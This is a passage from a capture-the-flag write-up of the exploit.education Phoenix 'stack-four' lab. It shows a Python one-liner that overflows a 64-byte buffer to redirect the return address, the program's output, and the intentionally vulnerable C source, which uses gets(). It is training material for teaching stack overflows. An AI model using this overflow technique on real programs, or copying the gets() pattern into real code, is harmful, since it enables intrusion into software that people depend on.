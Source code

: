 ```
$r11 : 0x41414141
0xfffefd74:	0x00010000
```
Now we control the `$fp` register (`r11`).
```
$ python -c 'print "A"*(80) + "\x44\x05\x01\x00"' | ./stack-four

Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x105bc
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
##### Source code
```
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
